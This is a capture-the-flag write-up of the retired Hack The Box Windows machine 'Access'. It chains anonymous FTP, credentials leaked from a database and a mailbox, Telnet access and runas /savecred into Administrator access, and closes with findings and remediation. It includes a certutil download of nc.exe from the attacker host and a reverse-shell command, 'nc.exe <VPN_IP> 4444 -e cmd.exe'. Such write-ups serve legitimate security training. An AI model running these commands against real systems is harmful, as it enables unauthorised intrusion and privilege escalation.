# Access — Hack The Box Write-up

> **Platform:** Hack The Box  
> **Machine:** Access  
> **Operating System:** Windows  
> **Status:** Retired  
> **Initial Access:** Telnet as `security`  
> **Final Access:** `ACCESS\Administrator`

## Disclaimer

This write-up documents an authorized cybersecurity training environment.

Target addresses, VPN addresses, and flag values have been removed or replaced with placeholders.

---

## Executive Summary

Access exposed three network services: FTP, Telnet, and an IIS web server.

Anonymous FTP access revealed a Microsoft Access database and a password-protected ZIP archive. The database contained credentials for an `engineer` account, and that password successfully unlocked the archive.

Inside the archive was a Microsoft Outlook PST file. An email stored in the mailbox revealed the password for the `security` account, which could authenticate to the exposed Telnet service.

Post-exploitation enumeration identified a Windows shortcut configured with `runas /savecred`. Windows Credential Manager confirmed that credentials for `ACCESS\Administrator` were already stored. The saved credentials were then reused to launch a reverse shell as Administrator.

Anonymous FTP gave us a database, the database gave us a password, the password opened an archive, and the archive contained an email with another password.

Access was essentially a credential-themed treasure hunt.

---

## Attack Path

```text
Nmap Enumeration
        ↓
Anonymous FTP Access
        ↓
backup.mdb + Access Control.zip
        ↓
Engineer Credential from Database
        ↓
Decrypt ZIP Archive
        ↓
Analyze Outlook PST
        ↓
Security Account Credential
        ↓
Telnet Login
        ↓
Discover runas /savecred Shortcut
        ↓
Confirm Stored Administrator Credential
        ↓
Execute Netcat as Administrator
        ↓
Administrator Reverse Shell
```

---

# 1. Reconnaissance

A full TCP port scan was performed against the target:

```bash
nmap -A -Pn -v -p- -T4 <MACHINE_IP>
```

The scan identified three open TCP ports:

| Port | Service | Details |
|---:|---|---|
| 21 | FTP | Microsoft FTP Service; anonymous authentication enabled |
| 23 | Telnet | Microsoft Windows Telnet service |
| 80 | HTTP | Microsoft IIS 7.5 |

The Telnet NTLM information also revealed the hostname:

```text
ACCESS
```



The most important result was anonymous FTP access. Exposing a file service to unauthenticated users is rarely a boring discovery.

---

# 2. Web Enumeration

Port `80` hosted a basic MegaCorp webpage through Microsoft IIS.

```text
http://<MACHINE_IP>/
```



The webpage did not expose any obvious interactive functionality, authentication portal, or direct attack surface. Attention therefore shifted to FTP.

---

# 3. Anonymous FTP Access

The FTP service allowed authentication using the username `anonymous`.

```bash
ftp <MACHINE_IP>
```

The FTP client was placed into binary mode before transferring files:

```text
binary
```

Because passive mode was not working correctly, active-mode transfers were used.

```text
passive
```

The root directory contained two interesting folders:

```text
Backups
Engineer
```



Further enumeration revealed two files:

```text
Backups/backup.mdb
Engineer/Access Control.zip
```



Both files were downloaded:

```text
cd Backups
get backup.mdb

cd ..
cd Engineer
get "Access Control.zip"
```

---

# 4. Transferring the Files to Windows

The recovered files could be analyzed directly from Kali, but Microsoft Access and Outlook provide cleaner handling of their native file formats.

A temporary Python HTTP server was started from the directory containing the files:

```bash
python3 -m http.server 80
```

The files were downloaded from a Windows analysis machine by visiting:

```text
http://<KALI_VM_IP>/
```

The server log confirmed successful retrieval of:

```text
backup.mdb
Access Control.zip
```



Sometimes the easiest forensic tool is simply the application the file was designed for.

---

# 5. Microsoft Access Database Analysis

The `backup.mdb` file was opened using Microsoft Access.

Several tables were present, but the following table was particularly interesting:

```text
auth_user
```

The table contained plaintext usernames and passwords, including:

| Username | Password |
|---|---|
| `admin` | `admin` |
| `engineer` | `access4u@security` |
| `backup_admin` | `admin` |



The `engineer` password appeared more intentional than the default-style credentials and was selected for testing against the protected archive.

The database was less interested in protecting passwords and more interested in displaying them neatly in a table.

---

# 6. Decrypting the ZIP Archive

The file `Access Control.zip` contained:

```text
Access Control.pst
```

The archive was encrypted. The password recovered from the `engineer` database entry was used:

```text
access4u@security
```



The archive was successfully extracted, producing a Microsoft Outlook PST file.

---

# 7. Outlook Email Analysis

The extracted file was opened in Microsoft Outlook:

```text
Access Control.pst
```

An email from `john@megacorp.com` discussed a password change for the `security` account.

The message revealed:

```text
Username: security
Password: 4Cc3ssC0ntr0ller
```



At this stage, the exposed Telnet service became the most likely path to an interactive shell.

---

## Alternative Linux-Based Analysis

The same files can also be analyzed directly from Kali.

### Enumerate Microsoft Access Tables

```bash
mdb-tables -1 backup.mdb
```

Export the relevant table:

```bash
mdb-export backup.mdb auth_user
```

For cleaner formatting:

```bash
mdb-export backup.mdb auth_user | column -s, -t | less -S
```

### Extract the ZIP Archive

```bash
7z x "Access Control.zip" \
-oaccess_control \
-paccess4u@security
```

### Convert the PST Mailbox

```bash
readpst -r -o pst_output "Access Control.pst"
```

The converted mailbox could then be inspected:

```bash
less "pst_output/Access Control/mbox"
```



Microsoft applications provided cleaner visual evidence, while the Linux utilities offered a fast terminal-only workflow.

---

# 8. Initial Access Through Telnet

The recovered `security` credentials were tested against Telnet:

```bash
telnet <MACHINE_IP> 23
```

Credentials:

```text
Username: security
Password: 4Cc3ssC0ntr0ller
```

Authentication was successful.

The current user was confirmed using:

```cmd
whoami
```

Result:

```text
access\security
```



An interactive Windows shell had now been obtained.

---

# 9. User Flag

The desktop of the `security` account was inspected:

```cmd
cd /d C:\Users\security\Desktop
dir
```

The user flag was located in:

```text
C:\Users\security\Desktop\user.txt
```

It was read using:

```cmd
type user.txt
```



The flag value has intentionally been omitted.

---

# 10. Public Desktop Enumeration

The public desktop was enumerated:

```cmd
cd /d C:\Users\Public\Desktop
dir /a
```

An interesting shortcut was discovered:

```text
ZKAccess3.5 Security System.lnk
```

Windows shortcuts can contain executable paths, arguments, working directories, and occasionally very useful configuration mistakes.

The shortcut properties were extracted using PowerShell:

```powershell
$s = (New-Object -ComObject WScript.Shell).CreateShortcut(
    'C:\Users\Public\Desktop\ZKAccess3.5 Security System.lnk'
)

$s.TargetPath
$s.Arguments
```

The shortcut pointed to:

```text
C:\Windows\System32\runas.exe
```

Its arguments were:

```text
/user:ACCESS\Administrator /savecred "C:\ZKTeco\ZKAccess3.5\Access.exe"
```



The shortcut was not merely launching an application. It was politely pointing toward a saved Administrator credential.

---

# 11. Stored Administrator Credentials

Saved credentials were enumerated using:

```cmd
cmdkey /list
```

The output confirmed a stored credential for:

```text
ACCESS\Administrator
```



Because the shortcut used `/savecred`, commands could potentially be executed as Administrator without knowing the Administrator password.

---

# 12. Transfer Netcat to the Target

A Netcat binary was hosted on the attacker machine:

```bash
python3 -m http.server 8000
```

From the target, `certutil` was used to download the executable:

```cmd
certutil -urlcache -split -f ^
http://<VPN_IP>:8000/nc.exe ^
C:\Users\Public\nc.exe
```

The transfer completed successfully.



---

# 13. Privilege Escalation with runas /savecred

A listener was started on the attacker machine:

```bash
rlwrap nc -lvnp 4444
```

The stored Administrator credentials were then used to execute Netcat through `runas`:

```cmd
runas /user:ACCESS\Administrator /savecred ^
"C:\Users\Public\nc.exe <VPN_IP> 4444 -e cmd.exe"
```

The listener received a reverse connection.

The effective user was verified:

```cmd
whoami
```

Result:

```text
access\administrator
```



No Administrator password was recovered or cracked. Windows used the credential already stored for the current user.

---

# 14. Root Flag

The Administrator desktop was inspected:

```cmd
cd /d C:\Users\Administrator\Desktop
dir
```

The root flag was located at:

```text
C:\Users\Administrator\Desktop\root.txt
```

It was read using:

```cmd
type root.txt
```



The flag value has intentionally been omitted.

---

# 15. Vulnerabilities and Weaknesses

| Finding | Severity | Impact |
|---|---:|---|
| Anonymous FTP access | High | Allowed unauthenticated retrieval of sensitive internal files |
| Sensitive database backup exposed through FTP | Critical | Disclosed plaintext application credentials |
| Plaintext passwords stored in the database | Critical | Enabled credential recovery without password cracking |
| Password-protected archive reused an exposed password | High | Allowed recovery of the Outlook mailbox |
| Credentials distributed through email | High | Exposed the `security` account password |
| Telnet enabled | High | Provided unencrypted remote authentication and shell access |
| Stored Administrator credential | Critical | Enabled privilege escalation without knowing the Administrator password |
| `runas /savecred` exposed through a public shortcut | Critical | Revealed a direct path to executing commands as Administrator |
| Unsupported legacy Windows services | High | Increased attack surface and reduced security guarantees |

---

# 16. Remediation

## Secure FTP

- Disable anonymous FTP access.
- Require authenticated and authorized accounts.
- Remove sensitive backups from publicly accessible directories.
- Replace FTP with a secure protocol such as SFTP.
- Monitor file-service access and unusual downloads.

## Protect Credentials

- Never store plaintext passwords in application databases.
- Use strong password hashing for authentication data.
- Store service credentials in a managed secrets vault.
- Avoid reusing credentials as archive passwords.
- Rotate all credentials exposed through backups or email.

## Remove Telnet

- Disable the Telnet service.
- Use encrypted remote administration protocols.
- Restrict remote management to trusted networks.
- Monitor remote logons and failed authentication attempts.

## Remove Saved Privileged Credentials

- Avoid using `runas /savecred` with privileged accounts.
- Remove saved Administrator credentials from standard-user profiles.
- Audit Credential Manager entries regularly.
- Require separate privileged accounts and secure administrative workstations.
- Apply least privilege to all user and service accounts.

## Secure Shortcuts and Public Locations

- Review shortcuts stored on public desktops.
- Remove sensitive command-line arguments.
- Prevent standard users from discovering privileged execution workflows.
- Audit `.lnk` files for embedded credentials, scripts, or dangerous arguments.

---

# 17. Lessons Learned

- Anonymous services should always be enumerated thoroughly.
- Backup files may be more valuable than the live application.
- Native file formats can often be analyzed using either Windows applications or Linux utilities.
- Password reuse can turn several individually limited findings into a complete attack chain.
- Outlook PST files may contain credentials, internal instructions, and operational secrets.
- Windows shortcuts can reveal executable paths and hidden arguments.
- `cmdkey /list` is an important command when investigating stored Windows credentials.
- `runas /savecred` can create a direct privilege-escalation path.
- A low-privilege shell should always be followed by filesystem, shortcut, and credential enumeration.

---

# 18. Completion


---

## Ethical Use

All security content published here relates only to authorized laboratories, retired training environments, academic projects, or intentionally vulnerable systems.

> Follow the files. Follow the credentials. Question every shortcut.
